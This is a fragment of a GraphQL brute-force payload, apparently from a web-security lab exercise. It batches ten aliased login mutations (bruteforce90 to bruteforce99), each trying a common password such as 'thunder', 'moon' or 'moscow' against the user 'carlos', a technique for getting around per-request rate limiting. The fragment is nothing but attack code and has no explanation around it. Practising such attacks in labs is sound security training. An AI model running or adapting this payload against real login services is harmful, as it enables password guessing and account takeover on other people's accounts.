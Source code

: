 ```bash


bruteforce90:login(input:{password: "thunder", username: "carlos"}) {
        token
        success
    }


bruteforce91:login(input:{password: "taylor", username: "carlos"}) {
        token
        success
    }


bruteforce92:login(input:{password: "matrix", username: "carlos"}) {
        token
        success
    }


bruteforce93:login(input:{password: "mobilemail", username: "carlos"}) {
        token
        success
    }


bruteforce94:login(input:{password: "mom", username: "carlos"}) {
        token
        success
    }


bruteforce95:login(input:{password: "monitor", username: "carlos"}) {
        token
        success
    }


bruteforce96:login(input:{password: "monitoring", username: "carlos"}) {
        token
        success
    }


bruteforce97:login(input:{password: "montana", username: "carlos"}) {
        token
        success
    }


bruteforce98:login(input:{password: "moon", username: "carlos"}) {
        token
        success
    }


bruteforce99:login(input:{password: "moscow", username: "carlos"}) {
        token
        success
    }
```
